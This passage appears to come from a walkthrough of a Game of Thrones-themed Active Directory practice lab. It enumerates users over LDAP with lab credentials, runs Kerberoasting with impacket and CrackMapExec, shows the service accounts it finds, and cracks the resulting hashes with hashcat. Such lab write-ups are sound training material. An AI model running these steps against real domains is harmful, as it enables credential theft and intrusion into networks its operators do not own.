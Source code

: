 ```shell
ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"
```

- On sevenkingdoms.local

```shell
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"
```

## Kerberoasting

- On an active directory, we will see very often users with an SPN set.

- let's find them with impacket

```shell
GetUserSPNs.py -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
```

```
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
ServicePrincipalName                                 Name      MemberOf                                                    PasswordLastSet             LastLogon                   Delegation  
---------------------------------------------------  --------  ----------------------------------------------------------  --------------------------  --------------------------  -----------
CIFS/winterfell.north.sevenkingdoms.local            jon.snow  CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2022-06-29 07:48:32.373101  2022-06-29 10:34:54.308171  constrained 
HTTP/thewall.north.sevenkingdoms.local               jon.snow  CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2022-06-29 07:48:32.373101  2022-06-29 10:34:54.308171  constrained 
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc                                                               2022-06-29 07:48:40.248028  2022-06-29 22:54:57.422114              
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc                                                               2022-06-29 07:48:40.248028  2022-06-29 22:54:57.422114
```

All the hashes will be stored in the file named kerberoasting.hashes

- we could also do that with cme with the following command :

```shell
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

- Now let's try to crack the hashes :

```shell
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

- we quickly get a result with rockyou :
